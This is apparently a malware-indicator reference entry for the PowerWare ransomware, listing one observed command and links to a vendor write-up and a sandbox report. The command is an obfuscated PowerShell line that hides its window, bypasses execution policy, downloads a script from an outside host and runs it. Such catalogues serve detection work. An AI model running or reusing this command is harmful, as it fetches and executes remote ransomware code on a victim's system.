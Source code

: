 ## PowerWare


#### Commands
---

* Cmd.exe

1.
```
/K poweRshell.exe -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://skycpa. in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1
```


#### Regular Expressions
---

``

``

#### Resources
---

Technical write-ups:
* https://www.carbonblack.com/2016/03/25/threat-alert-powerware-new-ransomware-written-in-powershell-targets-organizations-via-microsoft-word/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/69ee6349739643538dd7eb60e92368f209e12a366f00a7b80000ba02307c9bdf?environmentId=100

Notes:



 
